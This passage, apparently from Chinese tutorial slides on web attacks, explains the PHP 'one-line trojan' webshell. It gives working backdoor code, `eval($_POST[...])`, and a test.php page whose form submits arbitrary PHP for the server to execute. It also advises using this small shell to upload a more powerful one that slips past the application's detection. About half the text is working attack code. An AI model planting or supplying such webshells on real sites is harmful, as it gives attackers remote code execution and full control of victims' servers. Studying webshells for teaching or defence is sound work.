

除此之外，通过一句话木马的小马来提交功能更强大的大马可以更容易通过应用本身的检测。

就是一个最常见最原始的小马。eval() 函数把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，且必须以分号结尾。

<?php eval($_POST[a]); ?>
举例，编写test.php，存储到PHPNOW的Web目录下，代码如下：
| <?php eval($\_POST['uname']); ?> <form id="form1" name="form1" method="post" action="test.php"> <input name="uname" type="text" id="uname" /> <input type="submit" name="Submit" value="提交" /> </form> |
| --- |